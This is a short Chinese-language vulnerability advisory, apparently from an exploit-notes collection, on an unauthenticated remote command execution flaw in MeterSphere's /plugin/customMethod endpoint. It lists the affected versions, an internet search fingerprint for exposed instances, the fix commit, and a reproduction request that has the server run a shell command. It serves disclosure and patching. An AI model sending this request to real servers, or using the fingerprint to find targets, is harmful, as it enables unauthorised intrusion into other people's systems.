



# MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复。

## 漏洞影响

```
MeterSphere v1.13.0 - v1.16.3
```

## 网络测绘

```
body="MeterSphere"
```

## 漏洞复现

登陆页面


根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```
https://github.com/metersphere/metersphere/pull/9140/files
```



查看文件 /backend/src/main/java/io/metersphere/controller/PluginController.java



发送请求包

```
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

